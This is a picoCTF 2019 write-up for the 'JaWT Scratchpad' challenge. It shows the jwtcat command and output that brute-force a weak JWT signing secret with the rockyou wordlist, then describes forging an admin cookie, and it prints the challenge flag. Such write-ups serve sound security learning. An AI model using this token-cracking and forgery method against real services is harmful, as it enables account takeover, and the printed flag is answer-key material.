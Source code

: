 # JaWT Scratchpad

## Question
Check the admin scratchpad! https://2019shell1.picoctf.com/problem/49900/ or http://2019shell1.picoctf.com:49900

## Solution
First visit the website and login as a random user. We saw that after logging in, we have a new cookie field "jwt". Referring to [this website](https://auth0.com/blog/brute-forcing-hs256-is-possible-the-importance-of-using-strong-keys-to-sign-jwts/). Go to the website https://jwt.io/, then decode the cookie. We can see the header is 

```
{
  "typ": "JWT",
  "alg": "HS256"
}
```

 and the payload is

 ```
 {
  "user": "adms"
}
```. 

However, we also need to know the secret. We use [this tool](https://github.com/aress31/jwtcat) to brute force the secret. The password is as follow:
```shell
python3 jwtcat.py -t eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiaGpoa2gifQ._IOZV3xyfXsoxhgSiXH76KXDauyVCMILsVTtj-OUPS4 -w ../hashcat-5.0.0/rockyou.txt
[INFO] JWT: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiaGpoa2gifQ._IOZV3xyfXsoxhgSiXH76KXDauyVCMILsVTtj-OUPS4
[INFO] Wordlist: ../hashcat-5.0.0/rockyou.txt
[INFO] Starting brute-force attacks
[WARNING] Pour yourself some coffee, this might take a while...
[INFO] Secret key: ilovepico
[INFO] Secret key saved to location: jwtpot.potfile
[INFO] Finished in 700.0120856761932 sec
``` 

Hence, we can just change the payload and decrypt it again with the secret key. Edit our cookie and then we got the flag.

flag: `picoCTF{jawt_was_just_what_you_thought_1ea6044f378ef6e9d40d57a40f8b70f1}`
